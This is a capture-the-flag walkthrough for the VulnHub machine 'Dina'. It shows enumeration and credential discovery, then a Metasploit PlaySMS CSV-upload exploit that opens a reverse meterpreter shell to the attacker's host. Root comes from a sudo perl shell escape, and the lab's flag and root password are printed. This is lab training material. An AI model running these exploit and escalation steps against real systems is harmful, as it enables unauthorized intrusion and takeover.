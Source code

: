 # Dina: 1.0.1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:d7:c0:71       PCS Systemtechnik GmbH
192.168.56.108  08:00:27:b9:c3:c6       PCS Systemtechnik GmbH
```

The IP address `192.168.56.108`, let's enumerate it.


## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p- -oN nmap.out 192.168.56.108

Nmap scan report for 192.168.56.108
Host is up (0.00046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 5 disallowed entries 
|_/ange1 /angel1 /nothing /tmp /uploads
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Dina
MAC Address: 08:00:27:B9:C3:C6 (Oracle VirtualBox virtual NIC)
```

We explore the website and fuzz the web application :

![MainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cd80ecb5-6813-4ff2-9c0b-adbe5f7088b6)

see robots.txt and the following directories are disallowed :

```text
User-agent: *
Disallow: /ange1
Disallow: /angel1
Disallow: /nothing
Disallow: /tmp
Disallow: /uploads
```

go to `nothing` directory and see the page source, there is a comment here :

```text
<!--
#my secret pass
freedom
password
helloworld!
diana
iloveroot
-->
```

we collect these possible passwords for later use, and now we can fuzz the application :

```bash
root@kali: gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.56.108

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 3618]
/uploads              (Status: 301) [Size: 318] [--> http://192.168.56.108/uploads/]
/secure               (Status: 301) [Size: 317] [--> http://192.168.56.108/secure/]
/robots               (Status: 200) [Size: 102]
/tmp                  (Status: 301) [Size: 314] [--> http://192.168.56.108/tmp/]
/nothing              (Status: 301) [Size: 318] [--> http://192.168.56.108/nothing/]
```

navigate to `/secure` and download the `backup.zip` file :

![zipfile](https://github.com/Git-K3rnel/VulnHub/assets/127470407/0d31dd89-96eb-4572-86a1-ea84fb5ce581)

to unzip the file you need to provide a password, i used `freedom` as we found a list of passwords previously on comment in `/nothing` directory :

```bash
root@kali: 7za e backup.zip

Enter password (will not be echoed):
Everything is Ok      

Size:       176
Compressed: 336
```
see the file type of `backup-cred.mp3 ` :

```bash
file backup-cred.mp3                                                                                
backup-cred.mp3: ASCII tex
```

now cat the content of backup-cred.mp3 

```bash
cat backup-cred.mp3

I am not toooo smart in computer .......dat the resoan i always choose easy password...with creds backup file....

uname: touhid
password: ******


url : /SecreTSMSgatwayLogin
```

great now we have a user `touhid` and new directory `/SecreTSMSgatwayLogin`

navigate to this directory and try to login with user touhid and test the passwords you found on comment previously :

![playsms](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4c63f263-9463-4470-afe6-bd227dfb9874)

after trying the passwords, i found that i can login with `touhid:diana` :

![loginpanel](https://github.com/Git-K3rnel/VulnHub/assets/127470407/46c5b8c5-a675-44be-be59-99662a022295)

## 3.Gaining Shell

after a while searching, i found that searchsploit has something with `playsms` panel :

```bash
root@kali: searchsploit playsms 

PlaySMS - 'import.php' (Authenticated) CSV File Upload Code Execution (Metasploit)  | php/remote/44598.rb
PlaySMS - index.php Unauthenticated Template Injection Code Execution (Metasploit)  | php/remote/48335.rb
...
```

use metasploit to get code execution :

```bash
root@kali: msfconsole

msf6 > search playsms

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/multi/http/playsms_uploadcsv_exec      2017-05-21       excellent  Yes    PlaySMS import.php Authenticated CSV File Upload Code Execution
   1  exploit/multi/http/playsms_template_injection  2020-02-05       excellent  Yes    PlaySMS index.php Unauthenticated Template Injection Code Execution
   2  exploit/multi/http/playsms_filename_exec       2017-05-21       excellent  Yes    PlaySMS sendfromfile.php Authenticated "Filename" Field Code Execution

msf6 > use 0

msf6 exploit(multi/http/playsms_uploadcsv_exec) > set password diana
password => diana
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set username touhid
username => touhid
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set rhosts 192.168.56.108
rhosts => 192.168.56.108
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set targeturi /SecreTSMSgatwayLogin
targeturi => /SecreTSMSgatwayLogin
msf6 exploit(multi/http/playsms_uploadcsv_exec) > set lhost 192.168.56.102
lhost => 192.168.56.102
msf6 exploit(multi/http/playsms_uploadcsv_exec) > options

Module options (exploit/multi/http/playsms_uploadcsv_exec):

   Name       Current Setting        Required  Description
   ----       ---------------        --------  -----------
   PASSWORD   diana                  yes       Password to authenticate with
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.108         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                     yes       The target port (TCP)
   SSL        false                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /SecreTSMSgatwayLogin  yes       Base playsms directory path
   USERNAME   touhid                 yes       Username to authenticate with
   VHOST                             no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.102   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS 1.4

msf6 exploit(multi/http/playsms_uploadcsv_exec) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[+] Authentication successful: touhid:diana
[*] Sending stage (39927 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.108:40307) at 2023-10-17 07:05:51 -0400

meterpreter > shell
Process 2393 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

Checking our sudo permissions :

```bash
www-data@Dina:/home$ sudo -l
sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```

yes, we can execute perl binary.

check gtfobins to see how to use perl for PE :

```bash
www-data@Dina:/home$ sudo perl -e 'exec "/bin/sh";'

# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root
# cat flag.txt
________                                                _________
\________\--------___       ___         ____----------/_________/
    \_______\----\\\\\\   //_ _ \\    //////-------/________/
        \______\----\\|| (( ~|~ )))  ||//------/________/
            \_____\---\\ ((\ = / ))) //----/_____/
                 \____\--\_)))  \ _)))---/____/
                       \__/  (((     (((_/
                          |  -)))  -  ))


root password is : hello@3210
easy one .....but hard to guess.....
but i think u dont need root password......
u already have root shelll....


CONGO.........
FLAG : 22d06624cd604a0626eb5a2992a6f2e6
```

This is how you can get root on this machine :)








